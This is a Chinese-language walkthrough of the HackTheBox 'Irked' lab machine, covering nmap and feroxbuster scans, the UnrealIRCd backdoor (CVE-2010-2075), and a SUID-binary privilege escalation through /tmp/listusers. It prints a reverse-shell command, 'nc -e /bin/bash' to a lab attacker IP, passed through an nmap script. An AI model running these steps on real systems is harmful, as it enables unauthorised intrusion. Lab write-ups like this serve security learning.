

# lrked

nmap -p- --min-rate=1000 -sC -sV 10.129.214.119

開了22、80、111PORT。

開80port看看長怎樣

看起來沒有有用的資訊，用feroxbuster -u [http://10.129.211.128](http://10.129.211.128) -q爆破看看。

爆破進來後是這個網頁。

80port拿到的線索暫時是這些，往下看第一次看到的111port。

RPC 的各種服務（如 **NFS 檔案共享**、**NIS**、**Mountd**）

RPC像總機，讓電腦可以請求遠端伺服器執行程式的機制，但port是隨機分配的。

透過nmap我發現它在port6697、8064、65534有UnrealIRCd的服務。

port58833就是剛剛提到的RPC隨機分配的port。

找看看UnrealIRCd服務有沒有exploit.查了發現有[CVE-2010-2075](https://www.cvedetails.com/cve/CVE-2010-2075/)，只需要向 IRC 服務發送一個特定的字串，伺服器就會立即執行該字串後面的系統指令。

[NMAP](https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html)

這是nmap官網找到和unrealircd相關可以使用的腳本。

nmap -p 6697,8067,65534 --script irc-unrealircd-backdoor 10.129.210.154

irc-unrealircd-backdoor :指定執行特定的 NSE 腳本。

有看到port6697、8067，但8067closed connection了，那只剩6697這個攻擊點了，問了AI說能用用metasploit的方法。

有找到exploit，方法也奏效了但沒成功reverseshall，不知道甚麼問題，換了lport，監聽也開了，可能是msf壞掉吧，猜的。

**(補充:milo說use exploit後要show payload，選擇要使用的payload，在開始set。)也用不了**

換另一種方法，用nmap內建的腳本掃描。

nmap -p 6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -e /bin/bash 10.10.14.6 6666' 10.129.210.154

用 Nmap 觸發 UnrealIRCd 後門，讓目標機器執行你指定的反彈 shell 指令，觸發前開監聽。

--script-args=irc-unrealircd-backdoor.command='nc -e /bin/bash 10.10.14.6 6666':當漏洞被觸發時會在目標機器上執行這個指令。

順利混進來了，但user.txt需要提權。

我去Github找了[LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)載到本機。它是個掃描的腳本可能可以幫忙找到有趣的目錄。

在本機開一個http server。

接著再目標機器的/tmp目錄下wget 並賦予權限以及執行它。

它的interesting file下面優先去找擁有SUID和GUID權限的檔案，看到viewuser這個平常看不太到的檔案。

到usr/bin執行看看發現viewuser是透過tmp/listusers去執行的。

將/bin/bash指令寫入/tmp/listusers

到/tmp ，chmod +x listusers。

再到usr/bin去執行./viewuser，提權成功。

[Irked提權](https://github.com/jeremypickup/cybersecurity-notes/blob/main/Irked/Irked%20PE/Irked%E6%8F%90%E6%AC%8A%20.md)
